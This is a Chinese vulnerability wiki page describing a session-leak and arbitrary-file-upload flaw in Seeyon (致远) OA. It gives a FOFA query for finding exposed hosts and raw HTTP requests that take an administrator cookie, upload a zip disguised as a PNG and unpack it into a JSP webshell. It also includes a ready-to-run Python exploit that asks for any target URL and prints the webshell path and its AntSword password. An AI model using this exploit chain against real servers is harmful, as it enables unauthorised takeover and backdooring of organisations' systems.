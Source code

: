 # 致远OA Session泄露 任意文件上传漏洞

## 漏洞描述

致远OA通过发送特殊请求获取session，在通过文件上传接口上传webshell控制服务器

## 漏洞影响

> [!NOTE]
>
> 致远OA 

## FOFA

> [!NOTE]
>
> title="致远"

## 漏洞复现

首先要获取管理员cookie

```js
POST /seeyon/thirdpartyController.do HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 133
Content-Type: application/x-www-form-urlencoded

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1
```

> [!NOTE]
>
> 返回包出现 Sset-Cookie 和 a8genius.do 即为成功获取

![](http://wikioss.peiqi.tech/vuln/zhiyuan-46.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

上传压缩包添加 Cookie上传

```js
POST /seeyon/fileUpload.do?method=processUpload HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.25.1
Cookie: JSESSIONID=3495C4DEF87200EA323B1CA31E3B7DF5
Content-Length: 841
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="firstSave"

true
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="callMethod"

resizeLayout
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="isEncrypt"

0
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="takeOver"

false
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="type"

0
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="file1"; filename="test.png"
Content-Type: image/png

PK....................______
--59229605f98b8cf290a7b8908b34616b--
```

然后构造请求解压压缩包

```js
POST /seeyon/ajax.do HTTP/1.1
Host: 192.168.10.2
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=BDF7358D4C35C6D2BB99FADFEE21F913
Content-Length: 157

method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%222021-04-09%22%2C%225818374431215601542%22%5D
```

状态码返回500即为上传成功

## 漏洞POC

> [!NOTE]
>
> 脚本在文件目录的 POC中
>
> 其中含有zip压缩包 shell.zip, 如果上传失败更改一下文件名

![](http://wikioss.peiqi.tech/vuln/zhiyuan-47.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```python
# coding: utf-8
import requests
import sys
import random
import time
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA                                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/thirdpartyController.do"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04+LjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if response.status_code == 200 and "a8genius.do" in response.text and 'set-cookie' in str(response.headers).lower():
            cookies = response.cookies
            cookies = requests.utils.dict_from_cookiejar(cookies)
            cookie = cookies['JSESSIONID']
            targeturl = target_url + '/seeyon/fileUpload.do?method=processUpload'
            print("\033[32m[o] 目标 {} 正在上传压缩包文件.... \n[o] Cookie: {} \033[0m".format(target_url, cookie))
            files = [('file1', ('360icon.png', open('shell.zip', 'rb'), 'image/png'))]
            headers = {'Cookie':"JSESSIONID=%s" % cookie}
            data = {'callMethod': 'resizeLayout', 'firstSave': "true", 'takeOver':"false", "type": '0','isEncrypt': "0"}
            response = requests.post(url=targeturl,files=files,data=data, headers=headers,timeout=60,verify=False)
            reg = re.findall('fileurls=fileurls\+","\+\'(.+)\'',response.text,re.I)
            if len(reg)==0:
                sys.exit("上传文件失败")
            POC_2(target_url, cookie, reg, headers)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url),e)

def POC_2(target_url, cookie, reg, headers):
    vuln_url = target_url + '/seeyon/ajax.do'
    datestr = time.strftime('%Y-%m-%d')
    post = 'method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%22' + datestr + '%22%2C%22' + reg[0] + '%22%5D'

    headers['Content-Type']="application/x-www-form-urlencoded"
    print("\033[32m[o] 目标 {} 正在解压文件.... \033[0m".format(target_url))
    try:
        response = requests.post(vuln_url, data=post,headers=headers,timeout=60,verify=False)
        if response.status_code == 500:
            print("\033[32m[o] 目标 {} 解压文件成功.... \033[0m".format(target_url))
            print("\033[32m[o] 默认Webshell地址: {}/seeyon/common/designer/pageLayout/test10086.jsp \033[0m".format(target_url))
            print("\033[32m[o] 蚁剑密码: test \033[0m".format(target_url))
            print("\033[32m[o] 如果目标webshell无法访问，请更换 shell.zip 中的木马名称 \033[0m".format(target_url))
        else:
                print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url),e)
        
        
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-48.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)